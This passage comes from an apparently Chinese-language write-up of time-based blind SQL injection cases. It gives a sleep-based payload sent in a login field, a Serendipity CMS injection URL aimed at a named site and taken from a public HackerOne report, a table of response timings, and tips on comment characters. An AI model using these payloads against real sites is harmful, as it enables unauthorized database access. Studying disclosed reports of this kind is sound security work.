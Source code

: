 #### 对照请求（Sleep 0 秒）：

```
makefile复制编辑POST /elist/email_aba.php HTTP/1.1
Host: ████████
...

Body:
lname=S&userid=admin'+(select*from(select(sleep(0)))a)+'&pw=admin
```

#### 复现结果：

- `sleep(3)` 请求明显延迟响应；
- `sleep(0)` 请求无延迟；
- 可据此判断目标站点后端存在时间盲注型 SQL 注入。

### 20. Serendipity CMS | GET | 时间盲注

[Hanno's projects | Report #374027 - blind sql injection | HackerOne](https://hackerone.com/reports/374027)

#### 复现步骤:

1. 普通请求示例：

   ```
   https://betterscience.org/plugin/tag/peerj
   ```

   返回带有 peerj 标签的文章。

2. 注入测试请求：
   替换 `peerj` 为 SQL 注入 payload，例如：

   ```
   https://betterscience.org/plugin/tag/if(now()=sysdate(),sleep(6),0)/*...*/
   ```

3. 多次请求对比响应时间：

   | Payload                          | 响应时间 |
   | -------------------------------- | -------- |
   | `if(now()=sysdate(),sleep(3),0)` | 3.2s     |
   | `if(now()=sysdate(),sleep(9),0)` | 9.3s     |
   | `if(now()=sysdate(),sleep(0),0)` | 0.2s     |

   明显存在时间差异，说明 SQL 被注入执行。

# 三、实践总结

### 注释符选择：

1. 对于可以url编码的内容，可以使用--+
2. 不能编码的内容使用#
